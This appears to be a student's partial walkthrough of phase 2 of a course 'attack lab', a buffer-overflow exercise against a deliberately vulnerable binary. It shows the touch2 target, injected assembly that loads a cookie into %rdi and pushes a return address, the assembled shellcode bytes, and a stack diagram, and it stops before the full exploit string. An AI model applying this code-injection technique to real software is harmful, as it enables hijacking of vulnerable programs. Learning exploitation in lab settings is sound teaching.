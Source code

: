### phase_2

This phase we need to call `touch2`, and the cookie should equal to the value

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

Dump of assembler code for function `touch2`:

```c++
   0x004017ec <+0>:     sub    $0x8,%rsp
   // ....
```

It is clear that we should not only change the return address, but also change the value of `val`(%rdi), to match the `cookie`(0x59b997fa)

How could we change the value of `%rdi`? we can inject `movq $0x59b997fa %rdi` instruction to the buffer.

Here are all of the instructions we need:

```c
movq    $0x59b997fa, %rdi       // move cookie to rdi
pushq   $0x4017ec               // push the touch2 address to the stack
ret                             // pop the stack and jump to the address
```

Saved it in `phase_2_inject.s` then `gcc -c phase_2_inject.s`

Finally `objdump -d phase_2_inject.o` we get the codes

```c
0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:   68 ec 17 40 00          pushq  $0x4017ec
c:   c3                      retq 
```

We also need to make sure the codes above can be executed. How could we do that?

Considering the stack:

```c
| return address |    // return address of after calling `get_buf`
|     0x28       |   
|     0x20       |
|     0x18       |   
|     0x10       |   
|     0x08       |
|     0x00       |    // %rsp
```
